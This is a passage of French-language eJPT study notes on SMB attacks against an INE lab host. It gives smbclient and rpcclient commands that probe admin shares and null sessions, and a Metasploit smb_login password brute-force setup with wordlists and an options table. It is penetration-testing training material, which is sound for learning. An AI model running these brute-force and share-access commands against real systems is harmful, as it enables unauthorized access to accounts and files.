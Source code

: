 ### Vérification des prérequis PsExec
```bash
# Test d'accès aux partages admin
smbclient //demo.ine.local/ADMIN$ -U username
smbclient //demo.ine.local/C$ -U username

# Test avec null session
smbclient -L demo.ine.local -N
rpcclient -U "" demo.ine.local
```

---

## 🔐 3. Brute Force SMB avec Metasploit

### Module smb_login (Essentiel eJPT)
```bash
# Lancement Metasploit
msfconsole -q

# Configuration module brute force
use auxiliary/scanner/smb/smb_login
show options

# Configuration de base
set RHOSTS demo.ine.local
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set THREADS 16
exploit
```

### Options du module smb_login
| Option | Description | Valeur recommandée |
|--------|-------------|-------------------|
| `RHOSTS` | IP(s) cible(s) | demo.ine.local |
| `USER_FILE` | Liste d'utilisateurs | common_users.txt |
| `PASS_FILE` | Liste de mots de passe | unix_passwords.txt |
| `SMBUser` | Utilisateur unique | Administrator |
| `SMBPass` | Mot de passe unique | password123 |
| `VERBOSE` | Mode verbose | false (pour eJPT) |
| `THREADS` | Nombre de threads | 16 |
| `BLANK_PASSWORDS` | Test mots de passe vides | true |
| `USER_AS_PASS` | Username = password | true |
